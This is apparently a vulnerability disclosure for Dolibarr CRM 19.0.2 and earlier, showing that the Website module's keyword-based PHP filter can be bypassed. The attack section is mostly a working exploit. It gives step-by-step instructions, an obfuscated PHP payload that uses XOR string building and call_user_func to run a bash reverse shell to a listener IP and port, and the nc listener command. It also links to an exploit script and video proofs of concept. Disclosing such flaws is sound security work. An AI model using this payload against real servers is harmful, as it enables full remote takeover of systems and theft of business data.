 # DynamicPHPCode Filtering Bypass leads to Remote Code Execution
## Description
The "Websites" module in Dolibarr CRM version <= 19.0.2 has "checkPHPCode" function check to ensure that the page does not contain any malicious function. However, this function only checks by using match word searching, which allows malicious authenticated users to bypass by using obfuscation techniques.

## Detail
1. Open module Website in Dolibarr Setup
2. Navigate to the Website page of Dolibarr application.
3. Create new website, import website template and choose any template
4. Choose one page of template and edit HTML source.
5. Submit HTML source with payload:

      <code>&lt;?php
          $_ = "{";
          $_ = ($_^"&lt;").($_^"&gt;;").($_^"/");
          ${'_'.$_} = array("_" =&gt; "exec", "__" =&gt; "/bin/bash -c '/bin/bash -i &gt;&amp; /dev/tcp/{YOUR_LISTENER_IP}/{YOUR_LISTENER_PORT} 0&gt;&amp;1'");
          $func_name = ${'_'.$_}["_"];
          $param = ${'_'.$_}["__"];
          $output = call_user_func($func_name, $param);
          echo $output;
      ?&gt;</code>

  
7. Using command ***nc -lvnp  {YOUR_LISTENER_PORT}*** in listener machine
8. Payload lead to Remote Code Execution in the target server

Or you can using <a href="https://drive.google.com/file/d/1gsUqtWGMqpVrPMXiHdmdFLRC8MzcFtfw/view?usp=drive_link">exploit.py</a>

## POC
Kindly go through the below video for detailed steps:
<a href="https://drive.google.com/file/d/11THfPSHO1BnIGTrd1SZRg6VoaR3MlwIx/view?usp=drive_link">POC.mp4</a>
<a href="https://drive.google.com/file/d/1cxPRDip2xlgAPlgKgWjomDHiY_g-2UW4/view?usp=drive_link">POC_by_script.mp4</a>
